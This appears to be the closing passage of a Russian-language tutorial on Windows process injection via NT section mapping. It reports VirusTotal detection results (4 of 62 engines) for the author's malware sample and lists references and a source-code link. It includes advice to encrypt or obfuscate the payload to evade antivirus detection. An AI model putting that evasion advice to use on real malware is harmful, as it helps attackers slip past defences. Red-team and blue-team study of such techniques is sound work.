{width="80%"}    

Как видно, всё сработало идеально :)    

Загружаем вредоносное ПО на VirusTotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/1573a7d59de744b0723e83539ad8dcb9347c89f27a8321ea578c8c0d98f1e2cb?nocache=1](https://www.virustotal.com/gui/file/1573a7d59de744b0723e83539ad8dcb9347c89f27a8321ea578c8c0d98f1e2cb?nocache=1)    

**Итак, 4 из 62 антивирусных движков обнаруживают наш файл как вредоносный.**   

Если мы хотим добиться лучшего результата, мы можем добавить [шифрование полезной нагрузки](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) с ключом или [обфусцировать](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html) функции, либо комбинировать обе эти техники.    

Я надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.    

[BlackHat USA 2019 Process Injection Techniques - Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)    
[WinDBG kernel debugging](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/performing-local-kernel-debugging)    
[NtOpenProcess](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-ntopenprocess)    
[NtCreateSection](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtCreateSection.html)    
[NtMapViewOfSection](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtMapViewOfSection.html)    
[ZwUnmapViewOfSection](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwunmapviewofsection)    
[Moneta64.exe](https://github.com/forrest-orr/moneta)    
[исходный код на Github](https://github.com/cocomelonc/2021-12-13-malware-injection-12)    
